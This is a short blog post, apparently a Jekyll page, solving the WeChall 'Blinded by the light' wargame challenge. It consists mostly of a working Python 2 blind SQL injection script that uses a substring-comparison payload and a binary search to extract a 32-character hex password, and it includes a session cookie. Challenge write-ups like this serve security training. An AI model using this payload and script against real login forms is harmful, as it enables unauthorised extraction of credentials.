 ```yaml
---
title: Blinded by the light
author: rk700
layout: post
categories:
  - writeup
tags:
  - sql
  - wechall
---
```

<http://www.wechall.net/challenge/blind_light/index.php>  
这道题是盲注，32位的HEX，正好用了128次query

下面是python代码

{% highlight python %}
#!/usr/bin/env python2

import urllib
import urllib2

def makePayload(statement):
    return "' or substring(password, %d, 1)%s'%s" % (statement[0], statement[1], statement[2])
    
def checkResponse(response):
    return response.find("Welcome back") > 0

def doAssert(statement):
    url = 'http://www.wechall.net/challenge/blind_light/index.php'
    values = {'injection':makePayload(statement),'inject':'Inject'}
    data = urllib.urlencode(values)
    req = urllib2.Request(url, data)
    req.add_header('cookie','WC=7374566-11403-7iblKzppaCoukyl1')
    response = urllib2.urlopen(req)
    content = response.read()

    return checkResponse(content)
 
if __name__ == "__main__":
    alphalist = "0123456789ABCDEF"
    result = []
    for idx in range(1,33):
        start = 0
        end = 16 #[start, end)
        while (start < end):
            #print("[%d, %d)" % (start, end))
            if (end - start == 1):
                result.append(alphalist[start])
                break
            else:
                middle = (start + end)/2
                if(doAssert([idx, '<', alphalist[middle]])):
                    end = middle
                else:
                    start = middle
    print ''.join(result)
{% endhighlight %}